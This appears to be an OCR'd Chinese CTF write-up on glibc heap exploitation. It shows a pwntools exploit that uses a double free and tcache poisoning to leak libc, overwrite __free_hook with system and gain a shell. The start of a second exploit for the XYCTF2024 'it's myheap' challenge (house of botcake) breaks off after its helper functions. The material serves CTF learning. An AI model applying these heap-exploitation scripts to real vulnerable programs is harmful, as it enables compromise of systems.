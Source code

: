 ```python
create(0)
#double free  tcache:8-&gt;...
delete(8)
#8和10指向同一个chunk
create(10)

#清空tcache
for i in range(1,7):
    create(i)
#清楚到unsorted bin中只剩8，8和10指向同一个chunk
create(11)
show(10)
main_arena_offset = libc.sym["__malloc_hook"] + 0x10
libcbase=u64(sh.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-main_arena_offset-96
__free_hook=libcbase+libc.sym["__free_hook"]
system_addr=libcbase+libc.sym["system"]
print('libcbase:',hex(libcbase))

#8==10==12
create(12)

#tcache 10-&gt;0
delete(0)
delete(10)
#tcache 10-&gt;__free_hook
edit(12,p64(__free_hook))

create(13)
create(14)
edit(14,p64(system_addr))
delete(15)
sh.interactive()
```

例题libc2.35 XYCTF2024 ptmalloc2 it's myheap
------------------------------------------

1.题目上来就给了个libc，但其实不给也能泄露libc  
2.发现没有edit，只能在add的时候进行read,而且没有off-by-null，认为只能打tcache不能打largebin了，而且是打house of botcake，因为无法edit tcache\_key  
3.发现有uaf但是有mark这个标记，而且是malloc(0x18)后再malloc(size)  
4.mark的存在让double free变得困难，但是要注意mark也是在堆上的，意味着可以再申请回来改写，这样就可以double free  
5.更具体遇到的问题见exp

```python
from pwn import *
from pwnlib.util.packing import u64
from pwnlib.util.packing import p64
from pwnlib.util.packing import p32
context(os='linux', arch='amd64', log_level='debug')
# p=process('/home/zp9080/PWN/pwn')
elf=ELF('/home/zp9080/PWN/pwn')
p=remote('10.128.144.30',51655)
#51655

libc=elf.libc
def dbg():
    gdb.attach(p,'b *0x401773')
    pause()

def add(idx,size,content):
    p.sendlineafter("&gt;&gt;&gt; ",str(1))
    p.sendlineafter("chunk_idx: ",str(idx))
    p.sendlineafter("chunk size: ",str(size))
```